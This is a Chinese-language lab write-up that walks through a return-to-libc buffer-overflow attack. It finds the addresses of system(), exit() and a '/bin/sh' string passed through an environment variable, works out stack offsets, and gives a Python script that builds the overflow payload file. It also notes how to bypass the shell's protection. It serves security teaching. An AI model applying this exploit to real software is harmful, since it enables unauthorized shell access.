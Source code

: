 # 发起return-to-libc攻击

## 攻击三个阶段

最终目标是跳转到system()函数，执行/bin/sh，就是执行system("/bin/sh")  
为此，划分为三个阶段：  
1、找到system()函数的地址  
2、找到字符串/bin/sh的地址  
3、system()函数的参数  

## 第一阶段

![攻击第一阶段](../img/returntolibc-step1.png)
gdb中，需要使用run指令来执行目标程序，否则libc函数库不会被加载到内存中

!!! gdb指令

    -q选项是指安静模式，即不必要的信息不打印

## 第二阶段

```bash
export MYSHELL="/bin/sh"
```

```c
#include <stdio.h>
#include <stdlib.h>

int main()
{
    char *shell = (char *)getenv("MYSHELL");
    if (shell)
    {
        printf(" Value: %s \n", shell);
        printf(" Address: %x\n", (unsigned int)shell);
    }
    return 1;
}
```
![攻击第二阶段](../img/returntolibc-step2.png)

***这个地址与程序名称有关***
![地址与名称有关](../img/returntolibc-step21.png)
环境变量保存在程序的栈中，在压入栈之前，是程序名称先入栈

![汇编显示入栈顺序](../img/returntolibc-step22.png)
![汇编显示入栈顺序](../img/returntolibc-step23.png)

![c语言内存布局](../img/overflow-memory.png)
根据之前缓冲区溢出中程序原理图，小端序高字节保存在内存高地址，而栈的方向是从高地址往低地址，
故是函数名称先入栈。

## 第三阶段

### 问题的产生

正常的函数调用是这样的，函数被调用前，调用者把所需参数压入栈中，然后跳转到函数开头，一旦进入
被调用函数，可以通过帧指针ebp（栈底指针）获得传递参数。  
但是return-to-libc攻击中不是这样的，漏洞程序跳转到system()函数之前，需要自行将参数（即
/bin/sh的地址）放入栈中。关键在于参数应该放在栈的哪个位置。

### 分析

我们的目标是在函数返回时跳转到system函数，故返回地址填system函数的地址，那么这时system栈帧应该
如下图：
![system函数的栈帧](../img/returntolibc-system.png)
可以知道的是，system函数第一个参数肯定在%ebp + 8处，system函数返回地址即%ebp +4处放exit函数
的地址，可以完美终止程序
![system函数位置确定](../img/returntolibc-system2.png)
上图中vul_func函数对应我们这里foo函数。从上图3可知，栈顶ebp在system最后一个参数位置处，4的位置就是
buffer函数地址。  
如果计算出ebp到buffer的距离，就能够算出三个位置距离缓冲区起始位置的偏移值。  
system函数的地址是偏移 + 4  
exit函数的地址是偏移 + 8  
字符串/bin/sh的地址是偏移 + 12

### 实验

确定偏移实验
![确定偏移](../img/returntolibc-step3.png)

漏洞利用程序
```python
#!/usr/bin/python3
import sys

# 给content填上非零值
content = bytearray(0xaa for i in range(300))

a3 = 0xbfffff56     # /bin/sh的地址
content[120:124] = (a3).to_bytes(4, byteorder='little')

a2 = 0xb7e56260     # exit函数地址
content[116:120] = (a2).to_bytes(4, byteorder='little')

a1 = 0xb7e63310     # system函数地址
content[112:116] = (a1).to_bytes(4, byteorder='little')

file = open("badfile", "wb")
file.write(content)
file.close()
```
![攻击成功](../img/returntolibc-step32.png)

!!! 实验注意点

    上述实验开始没注意到函数名称的长度必须和stack一样，故后来取名env55攻击成功。  
    ubuntu 16.04以上需要sudo ln -sf /bin/zsh /bin/sh
    
!!! 返回导向编程

    简称ROP，return-to-libc攻击不一定需要返回到一个已有函数，思想是巧妙地把内存中的一些小指令序列串联，
    这些指令并不在一起，但最后一个指令都是return，通过设置都会返回到下一个指令地址。